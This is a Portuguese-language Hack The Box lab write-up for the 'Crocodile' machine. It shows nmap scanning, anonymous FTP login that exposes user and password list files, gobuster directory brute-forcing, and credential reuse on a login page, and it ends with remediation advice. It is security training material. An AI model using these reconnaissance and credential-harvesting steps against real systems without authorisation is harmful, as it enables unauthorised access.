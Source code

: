 # Hack the Box - Crocodile


---
## * Informações

☐ **Descrição:** Uma maquina com servidor ftp com login anonimo exposto e um servidor http apache

☐ **Ip:** 10.129.1.15

☐ **Serviços:**  FTP e HTTP Apache

---
## ! Vulnerabilidades

| ID | Serviço | Descrição |
|----|------|-----------|
| V-01 | FTP | Servidor FTP exposto na rede com login anônimo habilitado |
|V-02 | HTTP/Apache | Server Apache deixa fazer ataque brute force de busca de diretórios ocultos |

---
## + Enumeração
### =NMAP=

Eu ja sabia que a maquina tinha um serviço FTP e um HTTP, ent eu só escaneei a porta 21 e a 80 pra ser mais rapido.
Usei o comando:

```bash
nmap -sV -sC -p  21-80  10.129.1.15
```
 Resultado:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.148
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix
```

O parâmetro -sC ja conecta em qualquer servidor FTP que tenha servidor anônimo habilitado!

---
## $ Exploração
### =Servidor FTP=

Agora nós dentro do server, vamos listar o arquivos(Eu sei que isso já foi feito no scan do NMAP, mas quero deixar essa etapa aqui :p )

```bash
ftp> ls
229 Entering Extended Passive Mode (|||42446|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```
E agora vamos baixar esses dois arquivos, eu usei o comando **get "nome do arquivo"** e baixei os dois no meu pc

Vamos ver o conteúdo deles usando **cat**
```bash
┌──(xpfaint㉿kali)-[~]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                                                                                                                                      
┌──(xpfaint㉿kali)-[~]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

### =Gobuster=

Agora no gobuster, eu usei:

```bash
gobuster dir -u http://10.129.1.15/ -w /usr/share/wordlists/dirb/common.txt -x php  
```

Saída:
```bash
/.htaccess            (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/assets               (Status: 301) [Size: 311] [--> http://10.129.1.15/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 308] [--> http://10.129.1.15/css/]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.1.15/dashboard/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.1.15/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 307] [--> http://10.129.1.15/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 276]
```

Descobri varios diretorios, a que me chamou atenção foi a login.php

---
## ^ Escalação de Privilégios
### =login.php=

Usando aquela pagina, eu fui testando as credenciais, e uma delas deram certo, mas isso eu não vou mostrar pois pode dar respostas da maquina

Agora na pagina de root a flag já é encontrada:

![](./screenshots/crocodile/flag.png)

---
## {Conclusão}

### Melhorias na Segurança

| ID | Serviço | Melhoria |
|----|------|-----------|
| V-01 | FTP | Desabilite o login anônimo |
|V-02 | HTTP/Apache | Bloqueei muitas requisições seguidas, pra evitar brute force |

### Opnião Pessoal

Achei essa maquina muito fácil msm na real, é muito simples resolver ela :)

---
>Write-up por Luiz A. | Hack The Box - Crocodile | 25/10/25
